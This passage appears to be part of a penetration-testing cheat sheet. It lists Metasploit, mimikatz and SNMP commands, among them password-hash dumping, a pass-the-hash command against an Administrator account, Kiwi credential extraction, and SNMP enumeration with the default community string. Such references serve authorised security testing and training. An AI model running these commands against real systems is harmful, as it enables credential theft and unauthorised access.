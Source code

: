 ### Hashdump

- **Description:** Dumps password hashes from a system.
- **Command (Metasploit):**
    
    ```bash
    hashdump
    ```
    

### NTLM Hash and Pass-the-Hash

- **NTLM Hash:** A hash used in Windows authentication.
- **Pass-the-Hash:** Uses NTLM hashes to authenticate without the plaintext password.
    
    ```bash
    mimikatz sekurlsa::pth /user:Administrator /domain:example.com /ntlm:21306681c738c3ed2d615e29be1574a3 /run:cmd.exe
    ```
    

### Kiwi

- **Description:** A Metasploit extension for credential extraction.
- **Command:**
    
    ```bash
    meterpreter > load kiwi
    meterpreter > creds_all
    ```
    

### Photon

- **Description:** A web crawler for OSINT.
- **Command:**
    
    ```bash
    photon -u http://example.com
    ```
    

### Armitage

- **Description:** A GUI front-end for Metasploit.
- **Usage:** Launch Armitage and connect to a Metasploit instance.

### SNMPwalk/SNMPbulkwalk

- **Description:** Enumerates SNMP data.
- **Command:**
    
    ```bash
    snmpwalk -v 2c -c public 192.168.1.100
    snmpbulkwalk -v 2c -c public 192.168.1.100
    ```
    